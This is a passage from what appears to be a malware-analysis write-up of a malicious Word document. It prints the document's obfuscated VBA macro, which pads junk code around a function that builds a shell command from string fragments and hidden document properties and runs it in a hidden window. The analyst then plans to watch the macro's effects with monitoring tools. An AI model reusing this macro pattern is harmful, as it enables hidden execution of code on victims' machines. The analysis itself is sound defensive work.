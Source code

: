 ```vb
   On Error Resume Next
   XtaW = 252633654 - Rnd(JHd / Chr(RzwyI3)) * 582 - CSng(67 / 61 + UuzY46cs5 - CStr(404047675)) / 67 * RJpk5xi38 / 271545299 + CStr(77 + CByte(13 - Atn(64 - mTgJ * 284735532 / 32)) - 43 - CLng(ZdgH93I))
   YSuN0x5D = 229040495 / 36292429
   zFcxbS = (8 / CStr(UEi) + (ZRhr + jKDn0 - 14 / GDs * (EYA * CSng(345020765 * bQZ) - SsI / Cos(uAwx3Vije))))
End Sub

Public Function ukWWdsK()
On Error Resume Next
VBA.Shell$ "" + UWbfkwStSfN + TsvdGtsXy + CEksYkDDLPC + muCnTNfaDz + NHPPYeuBF + NhBKxbvDSCU + BHhpVSH + WwUHnAzPHH + ugxkHRTHwC + vfFPPPnCUf + ActiveDocument.CustomDocumentProperties("ZpEkWFg") + UWbfkwStSfN + TsvdGtsXy + CEksYkDDLPC + muCnTNfaDz + NHPPYeuBF + NhBKxbvDSCU + BHhpVSH + WwUHnAzPHH + ugxkHRTHwC + vfFPPPnCUf + ActiveDocument.BuiltInDocumentProperties("Comments") + UWbfkwStSfN + TsvdGtsXy + CEksYkDDLPC + muCnTNfaDz + NHPPYeuBF + NhBKxbvDSCU + BHhpVSH + WwUHnAzPHH + ugxkHRTHwC + vfFPPPnCUf + ZzNNgAY, 0
End Function
Sub JMQObR0()
   On Error Resume Next
   Lphmp5 = MDxY8q2 * uvPIG51Hm
   Uvcq = 314659417 * 465999738
End Sub
 Sub wXFp7reR9()
   On Error Resume Next
   Do While kcJf > lkPIt4
      For Each GIyl In OvCk
         PLPbA5 = Cos(188802468)
      Next
      For Each MqSKJ6f In ORvWe4F5
         noUx84A = 598
      Next
      For qiUPL4Ycs = cinf02 To DJpsd633
         FcHCQ5Ol = 531668891 * Chr(tWAv7fc2 / 401 - oOnx * Hex(22 + Log(238889098))) * yqAGY + Atn(URVKDhE26) * 933 / Fix(OUEk5 * Sin(193) - 9312 - Round(gXeSX11e)) * 699 - Round(lEol06) + 1648 - Round(299506984)
      Next
      Do
         cgXl1L = PVFdrkie * Int(7) * ZPWvW0 / Cos(6789) - 9 + Tnbf086
      Loop Until xbKi8920 > 6
      EFRQ1 = 334953148 * wLRi7
   Loop
   RSFC2F12 = mcgVq3X - 251107387
End Sub

```

- I will enable editing in the file and run FakeNet-NG and Process Explorer to monitor connections and new processes triggered by enabling the macros.
  - ![](https://firebasestorage.googleapis.com/v0/b/cv-p-2e5bb.appspot.com/o/qq.webp?alt=media&token=475901ea-b17f-4961-94e2-599d70c0be85)

